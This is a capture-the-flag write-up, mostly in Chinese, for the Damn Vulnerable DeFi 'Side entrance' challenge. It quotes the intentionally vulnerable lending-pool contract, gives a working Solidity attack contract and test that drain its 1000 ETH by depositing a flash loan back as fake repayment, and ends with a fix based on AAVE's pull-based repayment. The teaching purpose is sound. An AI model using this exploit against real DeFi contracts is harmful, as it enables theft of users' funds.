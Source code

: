 # 🚪 Challenge #4 - Side entrance 側門

![https://i.imgur.com/ElYSFA7.png](https://i.imgur.com/ElYSFA7.png)

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/side-entrance)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/side-entrance/side-entrance.challenge.js)

題目說有一個借貸池提供免費 [[FlashLoan]] 借貸的服務，我們的目標是將池子裡的 1000 ETH 歸給 attacker

## 合約研讀：尋找攻擊點

- 首先觀察一下flashLoan 的 function，會發現基本上我們只要想辦法讓 Balance 維持一樣就可以不用還錢，那我們有辦法把錢一樣留在池子裡面，但是改變所有權嗎？

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

- 再往下看可以看到有提款、存款的功能，是我們可以改變餘額、轉錢給自己的入口。所以我們可以使用合約發動攻擊，在 `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` 當中存錢到 `SideEntranceLenderPool` 當中，這樣餘額不會變，且 balance 的所有權也可以變成我們自己。

```solidity
    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }
```

## 實現攻擊

### 實現 IFlashLoanEtherReceiver 攻擊合約

- 寫一個實現 IFlashLoanEtherReceiver 的合約
- 實現 execute 中 deposit 給 pool，讓 pool 以為合約餘額沒有變就是已還款
- 實現可以收款、提款的功能

```mermaid
sequenceDiagram
  actor Attacker
  autonumber
    Attacker->>ReceiverAttackerSideEntrance: deploy
    Attacker->>ReceiverAttackerSideEntrance: attack
  rect rgb(191, 223, 255)
  note right of ReceiverAttackerSideEntrance: Attack Flow
  ReceiverAttackerSideEntrance->>SideEntranceLenderPool:flashLoan
  SideEntranceLenderPool--) ReceiverAttackerSideEntrance: ecucute
  ReceiverAttackerSideEntrance--) SideEntranceLenderPool: deposit(代替還款)
  SideEntranceLenderPool--)SideEntranceLenderPool: OK, 檢查餘額沒變
  end
  rect rgb(191, 223, 200)
  note right of ReceiverAttackerSideEntrance: Withdraw Flow
    Attacker->>ReceiverAttackerSideEntrance: withdraw
    ReceiverAttackerSideEntrance->>SideEntranceLenderPool: withdraw
  SideEntranceLenderPool-->>ReceiverAttackerSideEntrance: value
  ReceiverAttackerSideEntrance-->>Attacker: value
  end
```

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./SideEntranceLenderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverAttackerSideEntrance is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    using Address for address payable;
    address owner;

    constructor(address _pool) {
        owner = msg.sender;
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() external payable override {
        pool.deposit{value: 1000 ether}();
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
    }

    function withdraw(uint amount) external {
        pool.withdraw();
        require(owner == msg.sender);
        payable(msg.sender).sendValue(amount);
    }

    fallback() external payable {}
}

```

### 滿足測試

```jsx
    it('Exploit', async function () {
        const receiverAttacker = await (await ethers.getContractFactory('ReceiverAttackerSideEntrance', attacker)).deploy(this.pool.address);
        await receiverAttacker.attack( ETHER_IN_POOL );
        await receiverAttacker.withdraw(ETHER_IN_POOL);
    });
```

```
  [Challenge] Side entrance
    ✓ Exploit (131ms)

  1 passing (1s)

✨  Done in 4.92s.
```

## 🔧 總結 & 修改方式

[操弄依變因攻擊](https://www.so/2a0407b1936b4540a1b45c930e346336)

- **弱點：** 這題屬於 [[操弄依變因攻擊]]，
- **攻擊：** 通過把 pool 在 [[FlashLoan]] 借給我們的錢在重新存回 pool 通過了 pool 本身的 `address(this).balance >= balanceBefore` 檢查
- **改進：** 那要怎麼確保有還錢？而且還錢的一定是使用者？AAVE 的 FlashLoan 已經提供給我們解法，就是讓借貸者先 approve 然後 pool 合約本身做 transferFrom，這樣就可以確保，我們一定從借貸方抽取了借貸費用。 AAVE 有直接在[文件](https://docs.aave.com/developers/guides/flash-loans#completing-the-flash-loan)當中說明 ： > You **do not** need to transfer the owed amount back to the `Pool`. The funds will be automatically *pulled* at the conclusion of your operation.

借貸者需事先 approve 款項，AAVE V3 使用safeTransferFrom向使用者抽取費用，或者使用者也可以[使用抵押品來還錢](https://github.com/aave/aave-v3-core/blob/master/contracts/protocol/libraries/logic/FlashLoanLogic.sol#L132)。

## 4.4 完整合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping(address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value; //  ✨ 可以改變餘額
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw); //  ✨ 可以轉錢給自己
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        // ✨ 可以讓外部用借來的錢做任何事
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require( //  可以想辦法讓餘額不變，就可以不用還錢 ✨
            address(this).balance >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}

```
